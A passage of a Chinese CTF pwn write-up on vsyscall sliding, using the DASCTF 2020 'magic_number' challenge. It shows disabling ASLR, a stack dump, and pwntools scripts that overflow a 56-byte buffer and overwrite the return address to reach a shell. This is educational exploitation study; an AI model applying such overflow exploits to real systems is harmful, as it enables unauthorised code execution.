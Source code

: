 ```bash
```

这三段系统调用从上到下依次是gettimeofday、time、get_cpu。

# vsyscall滑动（No PIE）
> 关闭ALSR：echo 0 > /proc/sys/kernel/randomize_va_space
>

接下来看vsyscall在CTF-pwn中的作用，这里选用2020 DASCTF 8月赛的magic_number来举例（**关闭ALSR即程序的PIE不起作用**）：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1628575730877-97dba206-8dfb-415c-8056-1340496d90df.png)

程序很简单，生成一个随机数，然后与0x12345678进行比较，如果相等的话即可拿到shell：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1628575841656-a86a266e-b2a0-4aa7-9a93-89245e99e64e.png)

另外，程序还有一个read栈溢出:

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
p=process("./magic_number")
p.recvuntil('Your Input :\n')
gdb.attach(proc.pidof(p)[0],gdbscript="b *$rebase(0xAE0)")
p.send('a'*56)  #勿用sendline
p.interactive()
```

buf缓冲区填满之后的状况如下：

```python
pwndbg> x/20gx 0x7fffffffe1b0
0x7fffffffe1b0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1c0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1d0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1e0: 0x6161616161616161      0x00007ffff7a03bf7
    									#返回地址
0x7fffffffe1f0: 0x0000000000000001      0x00007fffffffe2c8
0x7fffffffe200: 0x0000000100008000      0x0000555555554a80
0x7fffffffe210: 0x0000000000000000      0x3a60c97119fb3eba
0x7fffffffe220: 0x0000555555554870      0x00007fffffffe2c0
0x7fffffffe230: 0x0000000000000000      0x0000000000000000
0x7fffffffe240: 0x6f359c244ffb3eba      0x6f358c9bfb453eba
pwndbg> 
```

这里先用普通的方法写一下：

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
p=process("./magic_number")
payload=56*'a'+p64(0x555555554AA8)  #4AA8
p.recvuntil('Your Input :\n')
#gdb.attach(proc.pidof(p)[0],gdbscript="b *$rebase(0xAE0)")
p.sendline(payload)
p.interactive()
```
